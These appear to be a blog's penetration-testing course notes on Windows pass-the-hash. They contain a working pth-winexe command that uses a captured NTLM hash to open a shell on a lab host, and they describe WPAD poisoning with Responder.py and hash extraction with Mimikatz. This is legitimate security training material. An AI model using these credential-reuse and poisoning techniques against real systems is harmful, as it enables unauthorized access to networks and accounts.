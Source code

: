 
• To execute an application like cmd on the remote computer using the SMB protocol, administrative privileges are required. 

• This is due to authentication to the administrative share C$ and subsequent creation of a Windows service.

![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/19/73.jpg)

kali@kali:~$ pth-winexe -U offsec%aad3b435b51404eeaad3b435b51404ee:2892d26cdf84d7a70e2
eb3b9f05c425e //10.11.0.22 cmd
E_md4hash wrapper called.
HASH PASS: Substituting user supplied NTLM HASH...
Microsoft Windows [Version 10.0.16299.309]
(c) 2017 Microsoft Corporation. All rights reserved.
C:\Windows\system32>



• According to the output in Listing 618, the command was successful, providing a shell on the target using the captured hash as credentials.


![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/19/74.jpg)

• Behind the scenes, the format of the NTLM hash we provided was changed into a NetNTLM version1 or format during the authentication process.

•  We can capture these hashes using man-in-themiddle or poisoning attacks and either crack them or relay them.

• For example, some applications like Internet Explorer and Windows Defender use the Web Proxy Auto-Discovery Protocol (WPAD) to detect proxy settings.

• If we are on the local network, we could poison these requests and force NetNTLM authentication with a tool like Responder.py, which creates a rogue WPAD server designed to exploit this security issue.

•  Since poisoning is highly disruptive to other users, tools like Responder.py should never be used in the labs.
19.4.2.1 Exercises
19.4.2.1 Exercises

1. Use Mimikatz to extract the password hash of an administrative user from the Windows client.

3. Reuse the password hash to perform a pass-the-hash attack from your Kali system and obtain code execution on your Windows client.
19.4.3 Password Cracking

19.4.3 Password Cracking

• In crypt analysis, password cracking is the process of recovering a clear text passphrase, given itsstored hash.

• The process of password cracking is fairly straight-forward at a high level.

• Once we have discovered the hashing mechanism we are dealing with in the target authentication process, we can iterate over each word in a wordlist and generate the respective message digest. 
 